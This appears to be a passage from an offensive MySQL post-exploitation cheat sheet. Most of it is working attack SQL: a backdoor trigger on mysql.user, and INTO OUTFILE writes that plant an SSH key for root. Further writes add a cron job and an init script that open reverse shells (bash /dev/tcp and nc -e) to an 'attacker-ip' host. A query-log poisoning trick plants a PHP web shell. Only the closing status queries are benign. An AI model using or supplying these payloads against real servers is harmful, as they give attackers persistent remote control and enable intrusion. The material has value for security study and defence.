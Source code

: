```sql
-- Create trigger for persistence
CREATE TRIGGER backdoor_trigger AFTER INSERT ON mysql.user FOR EACH ROW
    CALL hidden_backdoor();
```

#### System-Level Persistence
```sql
-- Write SSH keys
SELECT 'ssh-rsa AAAAB3NzaC1yc2E... your-public-key' INTO OUTFILE '/root/.ssh/authorized_keys';

-- Create cron job
SELECT '*/5 * * * * root /bin/bash -c "bash -i >& /dev/tcp/attacker-ip/4444 0>&1"' INTO OUTFILE '/etc/cron.d/mysql_backdoor';

-- Write startup script
SELECT '#!/bin/bash
nc attacker-ip 4444 -e /bin/bash' INTO OUTFILE '/etc/init.d/mysql-monitor';
```

---

## 🔧 Advanced Techniques

### MySQL Log Poisoning
```sql
-- Enable general query log
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/www/html/mysql.php';

-- Execute query with PHP code
SELECT '<?php system($_GET["cmd"]); ?>';

-- Access via web: http://target/mysql.php?cmd=id
```

### Memory Analysis
```sql
-- Check memory usage
SHOW STATUS LIKE 'memory%';

-- Process information
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;

-- Connection information
SHOW STATUS LIKE 'Conn%';
SHOW STATUS LIKE 'Thread%';
```

### Network Analysis
```sql
-- Show current connections
SHOW PROCESSLIST;

-- Connection statistics
SHOW STATUS LIKE 'Connections';
SHOW STATUS LIKE 'Max_used_connections';

-- User connection information
SELECT USER, HOST FROM INFORMATION_SCHEMA.PROCESSLIST;
```

---